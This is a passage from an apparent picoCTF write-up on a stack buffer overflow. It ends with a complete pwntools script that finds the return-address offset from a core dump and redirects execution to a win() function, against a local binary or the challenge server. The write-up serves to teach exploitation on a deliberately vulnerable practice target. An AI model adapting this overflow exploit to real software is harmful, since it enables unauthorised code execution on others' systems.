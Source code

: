 ```bash
Legend: code, data, rodata, value
0x08049337 in win ()
```

Notice that we push the address of the `main()` function on the top of the stack thanks to our payload. 
Can you guess what will happen if we hit `ni` again? Exactly! The program will jump back at the `main()` function.
We are almost there. Now all thats left to do is supply the arguments via our payload.

## 🌪 Exploiting (Automated)

To craft our final exploit we will apply a lot of the things we learnt in the second writeup of these series.

```python
from pwn import *
import argparse

parser = argparse.ArgumentParser()

parser.add_argument(
	"--host", 
	type=str, 
	default="saturn.picoctf.net", 
	help="Remote host"
)

parser.add_argument(
	"--port",
	type=int,
	help="Port to use when connecting to remote host."
)

args = parser.parse_args()

elf = context.binary = ELF('./vuln')

p = process(elf.path)
p.sendline(cyclic(200)) # Cause SIGSEGV
p.wait()

core = Coredump('./core') # Parse the core file
log.info(f"EIP: {core.eip}")
log.info(f"win: {elf.symbols.win}")
log.info(f"main: {elf.symbols.main}")

payload = flat(
	{cyclic_find(core.eip): elf.symbols.win},
	elf.symbols.main # return address
)

if args.host and args.port:
	p = remote(args.host, args.port)
else:
	p = process(elf.path)

p.sendline(payload) # send the payload
p.interactive()
```
